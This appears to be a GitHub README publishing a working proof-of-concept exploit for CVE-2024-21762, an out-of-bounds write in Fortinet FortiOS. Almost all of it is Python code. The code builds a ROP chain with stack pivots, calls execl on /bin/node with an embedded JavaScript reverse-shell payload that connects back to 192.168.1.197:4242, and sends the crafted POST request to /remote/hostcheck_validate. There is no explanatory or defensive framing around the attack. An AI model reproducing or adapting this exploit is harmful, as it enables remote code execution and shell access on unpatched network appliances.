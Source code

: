 # CVE-2024-21762
out-of-bounds write in Fortinet FortiOS  CVE-2024-21762 vulnerability 


## Exploit

```python

ssl_do_handshake_ptr = b"%60%ce%42%00%00%00%00%00"
getcwd_ptr = b"%70%62%2c%04%00%00%00%00"

pivot_1 = b"%52%f7%fd%00%00%00%00%00" # push rdi; pop rsp; ret;
pivot_2 = b"%ac%c9%ab%02%00%00%00%00" # add rsp, 0x2a0; pop rbx; pop r12; pop rbp; ret;

rop  = b""
rop += b"%c6%e2%46%00%00%00%00%00" # push rdi; pop rax; ret;
rop += b"%19%6f%4d%01%00%00%00%00" # sub rax, 0x2c8; ret;
rop += b"%8e%b2%fe%01%00%00%00%00" # add rax, 0x10; ret;
rop += b"%63%db%ae%02%00%00%00%00" # pop rcx; ret;
rop += b"%00%00%00%00%00%00%00%00" # zero rcx
rop += b"%38%ad%98%02%00%00%00%00" # or rcx, rax; setne al; movzx eax, al; ret;

rop += b"%c6%52%86%02%00%00%00%00" # shl rax, 4; add rax, rdx; ret;
rop += b"%6e%d0%3f%01%00%00%00%00" # or rdx, rcx; ret; - rdx is zero so this is a copy
rop += b"%a4%df%98%02%00%00%00%00" # sub rdx, rax; mov rax, rdx; ret;

rop += b"%f5%2c%e6%00%00%00%00%00" #  sub rax, 0x10; ret;
rop += b"%e4%e6%d7%01%00%00%00%00" #  add rsi, rax; mov [rdi+8], rsi; ret;

rop += b"%10%1b%0a%01%00%00%00%00" # push rax; pop rdi; add eax, 0x5d5c415b; ret;
rop += b"%25%0f%8d%02%00%00%00%00" # pop r8; ret; 0x028d0f25
rop += b"%00%00%00%00%00%00%00%00" # r8

pivot_3 = b"%e0%3f%4d%02%00%00%00%00" # add rsp, 0xd90; pop rbx; pop r12; pop rbp; ret;

call_execl = b"%80%c1%43%00%00%00%00%00"

bin_node = b"/bin/node%00" 
e_flag = b"-e%00"
js_payload = b'(function(){var net%3drequire("net"),cp%3drequire("child_process"),sh%3dcp.spawn("/bin/node",["-i"]);var client%3dnew net.Socket();client.connect(4242,"192.168.1.197",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();%00'

form_value  = b""
form_value += b"B"*11 + bin_node + b"B"*6 + e_flag + b"B"*14 + js_payload
form_value += b"B"*438 + pivot_2 + getcwd_ptr
form_value += b"B"*32 + pivot_1
form_value += b"B"*168 + call_execl
form_value += b"B"*432 + ssl_do_handshake_ptr
form_value += b"B"*32 + rop + pivot_3

body = (b"B"*1808 + b"=" + form_value + b"&")*20

data  = b"POST /remote/hostcheck_validate HTTP/1.1\r\n"
data += b"Host: 192.168.1.229\r\n"
data += f"Content-Length: {len(body)}\r\n".encode("utf-8")
data += b"\r\n"
data += body

ssock1 = make_sock(TARGET, PORT)
ssock1.sendall(data)

```
